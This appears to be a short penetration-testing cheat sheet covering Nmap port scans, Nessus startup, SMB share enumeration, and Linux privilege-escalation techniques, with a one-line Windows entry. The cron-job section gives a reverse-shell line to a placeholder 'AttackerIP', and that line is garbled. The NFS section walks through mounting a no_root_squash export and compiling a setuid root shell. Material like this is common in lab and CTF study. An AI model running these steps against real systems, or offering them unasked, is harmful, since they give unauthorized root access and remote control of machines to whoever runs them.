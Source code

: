 
# Nmap

To check all ports

```
nmap -A -p- TARGET-IP
```

To check specific port

```
nmap -p 80 TARGET-IP
```

Github:
https://github.com/Lifka/hacking-resources/blob/main/nmap-cheat-sheet.md
https://www.stationx.net/nmap-cheat-sheet/

# Nessus

in terminal

```
service nessusd start
```

open in browser

```
https://localhost:8834
```

# SMB

SMB Enumration

```
smbclient -L //10.10.10.192
// OR
sudo nmap -p 445 --script smb-enum-shares 192.168.1.58
```

to catch shares

```
crackmapexec smb 10.10.10.192 --shares
// OR nmap module
```


# Linux Privilege Escalation

## Kernel 

Scan kernel version, then search for exploit

```
uname -a
```

## Sudo 

run this command, then check GTFObins for exploitation

```
sudo -l
```

## SUID 

run this command, then check GTFObins for exploitation

```
find / -type f -perm -04000 -ls 2>/dev/null
```

## Cron-Jobs 

Check this path for edit a file

```
/etc/crontab
```

then modify it to this!

```
#!/bin/bash bash -I >& /dev/tcp/AttackerIP/4444 0>&1
```

## Capabilities 

run this command, then check GTFObins for exploitation

```
getcap -r / 2>/dev/null
```

## NFS

Check for "No_root_squash" flag output in this file

```
cat /etc/exports
```

then exploit!

```
showmount -e MACHINE_IP 
mkdir /tmp/1 
mount -o rw,vers=2 MACHINE_IP:/tmp /tmp/1 In command prompt type: echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c 
gcc /tmp/1/x.c -o /tmp/1/x 
chmod +s /tmp/1/x
```


# Windows Privilege Escalation

Try this command

```
getsys
```

